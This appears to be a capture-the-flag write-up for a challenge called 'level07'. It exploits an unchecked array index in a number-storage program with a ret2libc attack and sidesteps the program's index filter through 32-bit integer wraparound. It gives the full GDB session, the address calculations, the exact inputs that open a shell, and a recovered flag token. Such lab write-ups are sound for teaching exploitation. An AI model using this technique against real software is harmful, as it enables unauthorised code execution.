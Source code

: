 # level07

1. Overview

   * Interactive "number storage" service with three commands: `store`, `read`, `quit`.
   * A fixed array `local_1bc[100]` (in `main`'s stack frame) is used as the backing store. The helper `store_number(int *base)` writes:

     ```c
     *(uint *)(base + index*4) = value;   // NO bounds check
     ```
   * Input validation tries (and fails) to prevent exploitation:

     * Rejects **indices divisible by 3**.
     * Rejects **values** whose most significant byte equals `0xb7` (intended to block writes of typical `0xb7xxxxxx` libc pointers on some systems).
   * Strategy: classic **stack overflow by out‑of‑bounds array write** → overwrite **`main`'s saved return address** with `system`, place a fake return, then the `"/bin/sh"` pointer (ret2libc).

2. Relevant code (pseudo‑C)

```c
int store_number(uint *base) {
  printf(" Number: ");  unsigned value = get_unum();
  printf(" Index: ");   unsigned index = get_unum();
  if ((index % 3 == 0) || (value >> 24 == 0xb7)) {
    puts("This index is reserved for wil!");
    return 1;
  }
  *(unsigned *)(base + index*4) = value;  // OOB write into main's stack
  return 0;
}
```

`read_number` just prints `data[index]` and is not directly exploitable. `get_unum` uses `scanf("%u")` and clears stdin.

3. Memory layout & idea

* `base` (argument to `store_number`) points to `local_1bc[0]` in `main`'s stack frame.
* By choosing a large **index**, we write **past** `local_1bc[99]` and into the area where `main` keeps its **saved EIP** (return address) and subsequent stack words.
* Plan for ret2libc:

  ```
  data[index]     = system @ libc            // overwrites saved RET of main
  data[index + 1] = 0x41414141              // fake return address after system
  data[index + 2] = address of "/bin/sh"   // first arg to system
  ```

4. Deriving the exact index (with GDB)

Breakpoints and observations (as performed):

```gdb
(gdb) b store_number       # stop at the function entry
(gdb) b *0x080489f1        # just before main returns (RET site)
(gdb) run
Input command: store

# At store_number entry, the first argument (base) is at [EBP+8]
(gdb) x/xw $ebp+0x8
0xffffd530:  0xffffd554   # base = 0xffffd554

# Find libc mapping and useful symbols
(gdb) info proc map        # libc range e.g. 0xf7e2c000 - 0xf7fd0000
(gdb) find 0xf7e2c000,0xf7fd0000, "/bin/sh"
0xf7f897ec                 # "/bin/sh"
(gdb) info functions system
0xf7e6aed0  system         # system

# Break right before main returns to capture the saved RET location
(gdb) c
Input command: quit

Breakpoint ... at 0x080489f1 in main
(gdb) p/x $esp
$esp = 0xffffd71c           # address that RET will pop (saved EIP)
```

Compute the index that targets the saved RET:

```
index_raw = (saved_ret - base) / 4
          = (0xffffd71c - 0xffffd554) / 4
          = 0x1c8 / 4 = 114
```

Problem: `114 % 3 == 0` → **rejected**.

Bypass using 32‑bit wraparound: adding `2^30` to the index preserves the effective byte offset because `(index + 2^30) * 4 ≡ index*4 (mod 2^32)`, while flipping the modulo‑3 class (since `2^30 ≡ 1 (mod 3)`).

```
index = 114 + 2^30 = 1073741938   # accepted, same target address
```

5. Final addresses (example from the session)

* `system` = `0xf7e6aed0` = **4159090384**
* `"/bin/sh"` = `0xf7f897ec` = **4160264172**

Both pass the value check (`value >> 24 != 0xb7`, here top byte is `0xf7`).

6. Exploit steps (interactive)

```
Input command: store
 Number: 4159090384           # 0xf7e6aed0 (system)
 Index:  1073741938           # 114 + 2^30 → saved RET

Input command: store
 Number: 1094795585           # 0x41414141 (fake RET after system) — optional
 Index:  115

Input command: store
 Number: 4160264172           # 0xf7f897ec ("/bin/sh")
 Index:  116

Input command: quit           # triggers return from main → ret2libc
```

On return, `EIP` is set to `system`, it executes with the stack already arranged so the first argument is the `"/bin/sh"` pointer, and you get a shell.

7. Token

Token found `7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC`
